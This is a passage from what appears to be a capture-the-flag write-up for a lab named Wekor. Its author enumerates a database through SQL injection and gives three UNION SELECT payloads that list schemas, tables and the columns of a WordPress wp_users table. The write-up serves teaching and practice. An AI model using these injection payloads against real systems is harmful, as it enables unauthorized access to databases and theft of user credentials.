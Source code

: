 After determining the number of columns that must be specified, I continue to list all the available databases:

```
'UNION SELECT SCHEMA_NAME,NULL,NULL FROM INFORMATION_SCHEMA.SCHEMATA#
```

![Untitled](/assets/Wekor%20images/Untitled%206.png)

With the **tables** , the retrieved result is an enormous chunk of data so I will display only the one which contains helpful information, not all of them:

```
'UNION SELECT TABLE_NAME,NULL,NULL FROM INFORMATION_SCHEMA.TABLES#
```

![Untitled](/assets/Wekor%20images/Untitled%207.png)

Now I have the **table name**, additionally, I want to explore what columns does it have:

```
'UNION SELECT COLUMN_NAME,NULL,NULL FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME="wp_users"#
```

![Untitled](/assets/Wekor%20images/Untitled%208.png)
